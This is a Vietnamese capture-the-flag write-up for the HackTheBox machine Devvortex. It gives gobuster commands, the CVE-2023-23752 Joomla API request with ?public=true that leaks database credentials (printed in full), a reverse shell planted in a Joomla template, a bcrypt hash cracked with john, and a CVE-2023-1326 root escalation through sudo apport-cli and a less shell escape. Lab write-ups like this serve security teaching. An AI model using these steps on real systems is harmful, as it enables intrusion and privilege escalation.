## Task 1


> 2
## Task 2


Dùng gobuster để tìm kiếm
```bash
gobuster vhost -u http://devvortex.htb -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 40 --exclude-length 166
```
**Lưu ý:** Một lỗi sai ngớ ngẫn vì không thêm --append-domain vào nên khi dò gobuster chỉ gửi các tên như dev thay vì nhu cầu chúng ta cần dev.devvortex.htb
## Task 3


Dùng gobuster để tiến hành dò các dir để tìm các đường dẫn quản lý CMS
```bash
gobuster dir -u http://dev.devvortex.htb/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 40    
```

Kết quả nhận được một số đường dẫn đáng chú ý


Truy cập thử thì chúng ta được trang quản lý của Joomla



> joomla
## Task 4


Sau khi tìm hiểu thì Joomla có đường dẫn public sẽ lộ version
```
http://dev.devvortex.htb/administrator/manifests/files/joomla.xml
```
Từ đó, chúng ta thu thập được version
> 4.2.6
## Task 5


### CVE-2023-23752 — Improper Access Check
**Bản chất lỗi:** Joomla 4.x có REST API, và một số endpoint lẽ ra chỉ cho authenticated user truy cập nhưng lại **thiếu kiểm tra quyền** (missing access control check).

**Cụ thể:**
Joomla có class xử lý API request, trong đó các route như `/api/index.php/v1/config/application` được bảo vệ bằng một lớp access control. Nhưng ở version 4.0.0–4.2.7, tham số `public=true` trong query string **bypass được lớp kiểm tra này**.

Luồng xử lý đại khái:
```
Request vào → Router check: endpoint này cần auth không?
            → Code kiểm tra: public=true? → Bỏ qua auth
            → Trả về config application cho bất kỳ ai
```
**Vấn đề logic:** tham số `public` được dùng để đánh dấu một số API endpoint công khai (như thông tin site name, ngôn ngữ). Nhưng Joomla lại **áp dụng flag này quá rộng**, khiến cả endpoint chứa thông tin nhạy cảm như database config cũng bị ảnh hưởng.

> CVE-2023-23752
## Task 6


Lợi dụng CVE trên để đọc các thông tin nội bộ qua đường dẫn
```
http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
```



Chúng ta thu được 1 account
> lewis / P4ntherg0t1n5r3c0n##
## Task 7


Chúng ta sẽ lợi dụng CMS và template của nó để rce tạo init vào target. Chúng ta truy cập vào System > Site Templates > Cassiopeia Details and Files, chúng ta có thể xem nội dung template hiện tại.

Chúng ta chèn một dòng reverve shell vào sau đó tiến hành trigger bằng cách truy cập
```
http://dev.devvortex.htb/templates/cassiopeia/error.php/error
```

Chúng ta sẽ có được shell


Lấy full shell xong sau đó login vào DB bằng credential thu được phía trên


Chúng ta sẽ thu được thông tin bcrypt


> sd4fg_users
## Task 8


Tiến hành crack thử với rockyou
```bash
echo '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12' > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```



> tequieromucho
## User Flag


Kiểm tra trong /etc/passwd thì có user logan này nên tiến hành đăng nhập

## Task 10


```bash 
sudo -l
```


> /usr/bin/apport-cli
## Task 11


Trước tiên chúng ta kiểm tra version của apport-cli
```bash
/usr/bin/apport-cli --version
2.20.11
```

> CVE-2023-1326

### CVE-2023-1326
Lỗi này cho phép **local privilege escalation** thông qua `apport-cli` version 2.20.11. Khi `apport-cli` chạy với `sudo`, nó dùng **less** làm pager để hiển thị crash report — và từ less bạn có thể escape ra shell:
```bash
sudo /usr/bin/apport-cli -c /var/crash/some_report.crash
```
Khi less mở lên, gõ:
```
!/bin/bash
```
→ Spawn root shell, vì less đang chạy dưới quyền sudo.

Tuy nhiên, chúng ta không có file crash này nên tự tạo một cái
```bash
# Tạo một process chạy nền
sleep 100 &

# Lấy PID
echo $!

# Chạy apport-cli với sudo, trỏ vào PID đó
sudo /usr/bin/apport-cli -f -P <PID>
```
Ứng dụng sẽ tiến hành phân tích và report

Chỗ xuất hiện less chúng ta input `!/bin/sh`


